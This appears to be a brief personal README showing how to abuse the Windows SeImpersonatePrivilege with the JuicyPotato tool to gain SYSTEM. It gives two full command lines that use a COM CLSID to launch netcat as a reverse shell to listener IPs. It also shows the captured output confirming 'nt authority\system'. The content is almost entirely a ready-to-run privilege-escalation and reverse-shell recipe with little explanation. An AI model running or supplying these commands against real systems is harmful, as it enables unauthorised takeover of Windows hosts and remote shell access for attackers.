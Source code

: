 ### how to exploit SeImpersonatePrivilege using a juicePotato binary (abusing the golden privileges)

With potato we can easy use the followint command 
```
C:\Users\Public\desktop>potato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.16.29 1234" -t *
```

```
c:\Users\Public>JuicyPotato -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\public\desktop\nc.exe -e cmd.exe 10.10.10.12 443" -t *

Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM
[+] CreateProcessWithTokenW OK
c:\Users\Public>                                                                                                                                                                                       

C:\Windows\system32>whoami
whoami
nt authority\system 
```

N/B: I have made this simple repostory specificary  for my own use, so i understand what is going on with everything if you wanna more details just google budy

# AND WERE DONE WITH JUICEPOTATO BINARY
